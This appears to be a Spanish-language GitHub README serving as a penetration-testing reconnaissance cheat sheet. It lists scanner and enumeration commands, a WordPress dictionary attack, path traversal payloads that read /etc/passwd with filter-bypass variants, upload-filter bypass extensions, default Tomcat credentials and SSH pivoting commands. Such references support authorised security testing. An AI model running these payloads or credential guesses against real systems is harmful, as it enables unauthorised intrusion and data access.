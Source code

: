 
# Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades.  <p align="left"> <a href="https://www.linux.org/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/linux/linux-original.svg" alt="linux" width="40" height="40"/> </a> </p>




# Herramientas de escaneo 
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
## Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
## Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
# Pivoting
### Local 
```shell
- ssh -L <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Remoto
```shell
- ssh -R <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Dinámico 
```shell
- ssh -D <puerto local que actuará como proxy> <usuario>@<ip> 
```

